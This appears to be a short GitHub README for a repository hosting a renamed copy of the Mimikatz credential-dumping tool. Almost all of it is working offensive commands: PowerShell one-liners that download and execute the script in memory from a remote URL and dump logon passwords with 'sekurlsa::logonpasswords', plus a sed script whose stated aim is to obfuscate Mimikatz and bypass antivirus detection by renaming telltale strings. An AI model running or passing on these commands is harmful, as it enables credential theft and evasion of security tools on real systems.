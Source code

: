# Download Mimikatz web with Powershell

mimikatz 2.1.1 (x64) built on Aug  3 2018

OK for Win 10 (v1803)

Powershell as Administrator

    Import-Module .\Invoke-Mimidogz.ps1
    Invoke-Mimikatz -Command "privilege::debug"

or via web:

    IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mttstt/mimi/master/Invoke-Mimidogz.ps1');Invoke-Mimidogz -Command "privilege::debug" 

https://github.com/gentilkiwi/mimikatz/issues/83

Autentication proxy for powershell
(New-Object System.Net.WebClient).Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials


IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/mttstt/mimi/master/Kingdom3.ps1");Invoke-Mimidogz -Command "privilege::debug";Invoke-Mimidogz -command "sekurlsa::logonpasswords"

# Script to obfuscate mimikatz and bypass AV
    
    wget https://raw.githubusercontent.com/EmpireProject/Empire/7a39a55f127b1aeb951b3d9d80c6dc64500cacb5/data/module_source/credentials/Invoke-Mimikatz.ps1
    sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
    sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
    sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
    sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
    sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1
    sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1
    sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
